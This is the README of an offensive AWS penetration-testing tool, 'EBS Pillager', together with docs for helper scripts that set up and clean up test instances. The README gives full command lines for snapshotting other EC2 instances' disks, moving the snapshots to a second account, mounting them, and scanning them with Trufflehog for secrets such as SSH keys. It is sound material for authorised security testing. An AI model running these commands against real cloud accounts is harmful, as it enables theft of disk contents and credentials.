 # EBS Pillager

This is an EC2 EBS post-exploitation script. The end goal is to make your life a lot easier if you get admin in EC2 while on an AWS pen test and are interested in pillaging other instances' EBS volumes. It automates the process of creating snapshots of EBS volumes, transferring them between AWS accounts if necessary, mounting them on the attacker-controlled EC2 instance, and running Trufflehog on the EBS volume's mounted snapshot. 

## Features
- **Snapshot Creation**: Create snapshots of the root EBS volume of an EC2 instance.
- **Cross-Account Snapshot Transfer**: Optionally transfer the snapshot to a different AWS account.
- **Volume Creation**: Create a new volume from the snapshot and attach it to a target EC2 instance.
- **Volume Mounting**: Mount the created volume to a specified EC2 instance for inspection.
- **Trufflehog Scanning**: Run Trufflehog on the mounted volume to search for secrets.

## Requirements
- Python 3.x
- `boto3` library
- AWS CLI configured with necessary profiles

## Usage
### Same Account Abuse
This scenario involves creating a snapshot and mounting the volume within the same AWS account.
```
python3 ebspillage.py --src-profile $src_profile --dst-profile $dst_profile --src-region us-east-1 --dst-region us-east-1 --mount-path /root/blah --pillage --ssh-key-path ~/.ssh/id_rsa --target-ec2 i-09639c1f8c7408b0d --mount-host i-06549773ee1b5a056 --pillage-path /etc/ssh --out-file ./trufflehog.out --json
```

### Cross-Account Abuse via Snapshot Transfer
This scenario involves creating a snapshot in one AWS account, transferring it to another account, and then creating and mounting the volume in the destination account.

```
python3 ebspillage.py --src-profile $src_profile --dst-profile $dst_profile --src-region us-east-1 --dst-region us-east-1 --mount-path /root/blah --pillage --ssh-key-path ~/.ssh/id_rsa --target-ec2 i-062fb4910e81569b1 --mount-host i-06549773ee1b5a056 --pillage-path /etc/ssh --out-file ./trufflehog.out --json --transfer
```

## Arguments
- `--src-profile`: The AWS CLI profile name for the source account.
- `--dst-profile`: The AWS CLI profile name for the destination account.
- `--src-region`: The AWS region for the source account.
- `--dst-region`: The AWS region for the destination account.
- `--mount-path`: The path on the target instance where the volume will be mounted.
- `--pillage`: Flag to enable the process of creating a snapshot, creating a volume, mounting it, and running Trufflehog.
- `--ssh-key-path`: The path to the SSH key file used for connecting to the instance.
- `--target-ec2`: The EC2 instance ID for which the snapshot will be created.
- `--mount-host`: The EC2 instance ID where the volume will be mounted.
- `--pillage-path`: The path within the mounted volume where Trufflehog will be run.
- `--out-file`: The path where the Trufflehog output will be saved.
- `--json`: Flag to enable JSON output format for Trufflehog.
- `--transfer`: Flag to transfer the snapshot from the source account to the destination account.
- `--retain`: Retain the snapshot and volume after processing, instead of deleting them.

# AWS EC2 Helper Scripts

This repository contains two helper scripts, `create_ec2.sh` and `delete_all.sh`, designed to manage EC2 instances and related resources on AWS. These scripts simplify the process of creating and cleaning up EC2 instances, volumes, and snapshots.

## Scripts Overview

### `create_ec2.sh`

This script automates the creation of an EC2 instance in a specified AWS region. The script is designed to apply a specific tag (`TrufflehogTesting`) to both the EC2 instance and its associated EBS volume.

#### Usage

`bash create_ec2.sh --profile PROFILE_NAME --region REGION --instance-profile INSTANCE_PROFILE --ip-allowlist IP_ADDRESS --key KEY_NAME --image-id IMAGE_ID --instance-type INSTANCE_TYPE`

#### Parameters

- `--profile`: The AWS CLI profile to use for authentication 
- `--region`: The AWS region where the instance will be created (e.g., `us-east-1`).
- `--instance-profile`: The IAM instance profile to attach to the instance (e.g., `SMInstanceProfile`).
- `--ip-allowlist`: The IP address (or range) to allow SSH access (e.g., `1.2.3.4/32`). You can use `curl -s ifconfig.me` to automatically use your current public IP.
- `--key`: The name of the SSH key pair to associate with the instance 
- `--image-id`: The ID of the Amazon Machine Image (AMI) to use for the instance 
- `--instance-type`: The type of instance to create (e.g., `t3.micro`).

#### Example

`bash create_ec2.sh --profile YOUR_PROFILE --region us-east-1 --instance-profile SSMInstanceProfile --ip-allowlist `curl -s ifconfig.me`/32 --key YOUR_KEY --image-id YOUR_AMI_ID --instance-type t3.micro`

This command will create an EC2 instance with the tag `TrufflehogTesting` applied to both the instance and its associated EBS volume.

### `delete_all.sh`

This script automates the deletion of all EC2 instances, EBS volumes, and snapshots that have been tagged with `TrufflehogTesting`. It provides an easy way to clean up resources after testing.

#### Usage

`bash delete_all.sh --profile PROFILE_NAME --region REGION`

#### Parameters

- `--profile`: The AWS CLI profile to use for authentication  
- `--region`: The AWS region where the resources are located  

#### Example

`bash delete_all.sh --profile YOUR_PROFILE --region us-east-1`

This command will delete all EC2 instances, EBS volumes, and snapshots in the specified region that have been tagged with `TrufflehogTesting`.

### Script Details

- `create_ec2.sh`: 
  - Automatically tags EC2 instances and associated EBS volumes with `TrufflehogTesting`.
  - Configures security group rules to allow SSH access from a specified IP address.
  - Starts the instance and waits for it to be in the `running` state before outputting the public IP.

- `delete_all.sh`: 
  - Finds and deletes all EC2 instances tagged with `TrufflehogTesting`.
  - Finds and deletes all EBS volumes and snapshots tagged with `TrufflehogTesting`.
  - Ensures that resources are cleaned up thoroughly to avoid unnecessary charges.

- `setup_instance_profile.sh`:
  - Configures instance profile with the required permissions to run SSM 

- `ssm_policy.json` and `ssm_trust_policy.json`
  - Example policies that can be used for testing or your attacker ec2


### Helper Requirements

- AWS cli
- jq

## Bug Fixes (lazily not filing issues)
- [x] Fix bug where the mount host's own filesystem gets mounted rather than the target ec2 
- [x] Fix issue where snapshot transfer is failing 
- [x] Unmount volume from ec2 mount host after trufflehog completes 
- [ ] Fix error where volume doesn't get detached from mount host after trufflehog run

## To Do
- [ ] Run tests with encrypted EBS volumes with various roles / AuthZ levels 
- [ ] Add functionality to work with specied KMS keys for decrypting volumes if encrypted 
- [ ] Clean up dead, unnecessary code and libraries 
- [ ] Add interactive mode 
- [ ] Clean up cli arguments to be more meaningful / appropriately named 
- [ ] Investigate way of downloading a snapshot img for offline pillaging 
- [ ] Add argument to specify log levels (e.g., debug, info)

## License
This project is licensed under the MIT License.
